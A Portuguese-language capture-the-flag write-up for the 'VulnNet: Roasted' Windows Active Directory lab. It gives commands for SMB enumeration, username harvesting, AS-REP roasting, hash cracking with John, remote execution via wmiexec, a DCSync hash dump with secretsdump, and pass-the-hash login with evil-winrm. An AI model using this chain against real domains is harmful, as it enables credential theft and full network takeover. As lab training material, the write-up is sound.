







# _**VulnNet: Roasted CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```


Informações importantes que podemos extrair deste scan
* Domain: vulnnet-rst.local0.
* Service Info: Host: WIN-2BO8M1OE1M1

Temos também um serviço SMB do qual podemos tentar enumerar com ```smbclient -L \\\\[ip_address]```  


Isso é interessante, quando a máquina tem SMB aberto e IPC$ aberto com acesso mínimo de leitura, ela fica vulnerável a outras enumerações de usuários
Primeiro, vamos executar o  coamndo abaixo para verificar permissões  
> ```bash
> smbmap -u anonymous -H [ip_address]
> ```


Vamos também buscar por _usernames_ com [lookupsid](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py)
> ```bash
> lookupsid.py anonymous@[ip_address] | tee usernames
> ```


Parece que temos alguns usuários  
Vamos limpar com ```cat usernames | grep SidTypeUser  |gawk -F '\' '{ print $2 }' |gawk -F ' ' '{ print $1 }' | tee usernames```  
Podemos usar GetNPUsers.py do impacket, que pode verificar se há nomes de usuários válidos e se eles não exigem a pré-autenticação Kerberos (PREAUTH) habilitada
> ```bash
> GetNPUsers.py vulnnet-rst.local/ -usersfile usernames -no-pass -dc-ip [ip_address]
> ```


Parece que temos uma hash  
Vamos utilizar <mark>John the Ripper</mark> para tentar quebrar  
Primeiro, copiamos para um arquivo _.txt_  
Em seguida, usamos o comando ```john --wordlist=/usr/share/wordlist/rockyou.txt [filename.txt]```  



Encontramos a senha para **t-skid**  
Agora, vamos realizar login via SMB com ```smbclient  -U t-skid \\\\[ip_address]\\NETLOGON```  
Procurando por arquivos, encontramos um, _ResetPassword.vbs_  
Puxamos para nosso computador e tentamos ler com ```cat```  
Após um pouco de investigação, conseguimos encontrar credenciais!  



Vamos utilizar wmiexec.py  
Ele é um script do Impacket que permite executar comandos remotamente em um host Windows utilizando WMI  
> ```bash
> wmiexec.py vulnnet-rst.local/a-whitehat@[ip_address]
> ```


Navegando pelos diretórios, conseguimos encontrar nossa primeira flag em uma pasta no 'Desktop'  
Agora, para escalarmos privilégios, vamos primeiro executar o comando ```whoami /groups```  



O usuário a-whithat é um administrador de domínio, podemos executar um ataque DCSync para obter o hash do administrador e fazer login via EvilWinRM  
Primeir, vamos executar o comando abaixo para obter hashes  
> ```bash
> secretsdump.py a-whitehat@[ip_address]
> ```


Conseguimos hash de administrador!  
Vamos utilizar o seguinte comando para realizar login  
> ```bash
> evil-winrm -i [ip_address] -u Administrator -H [admin_hash]
> ```


A flag pode ser obtida no _desktop_ do administrador!
